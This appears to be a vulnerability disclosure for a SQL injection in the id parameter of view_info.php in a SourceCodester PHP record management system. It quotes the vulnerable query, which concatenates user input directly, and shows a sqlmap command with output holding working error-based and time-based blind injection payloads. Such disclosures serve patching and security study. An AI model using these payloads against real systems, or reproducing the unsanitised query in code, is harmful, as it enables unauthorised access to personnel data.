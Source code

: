 ### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (view_info.php id parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
view_info.php 

On this page, id parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/view_info.php):
```
$get_id=$_GET['id'];
$get_query=mysqli_query($conn,"select * from employee where employeeID='$get_id'")or die(mysqli_error());
$row=mysqli_fetch_array($get_query);$id=$row['employeeID'];
```
## Proof of vulnerability(Verify using the sqlmap tool):
#### -> sqlmap -u http://localhost/Personnel_record_management_system/view_info.php?id=166 --batch
## Output:
```
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=166'||(SELECT 0x6e514463 WHERE 3381=3381 AND (SELECT 9571 FROM(SELECT COUNT(*),CONCAT(0x717a627171,(SELECT (ELT(9571=9571,1))),0x7162717171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=166'||(SELECT 0x656d4452 WHERE 1219=1219 AND (SELECT 1751 FROM (SELECT(SLEEP(5)))DSrn))||'
---
```
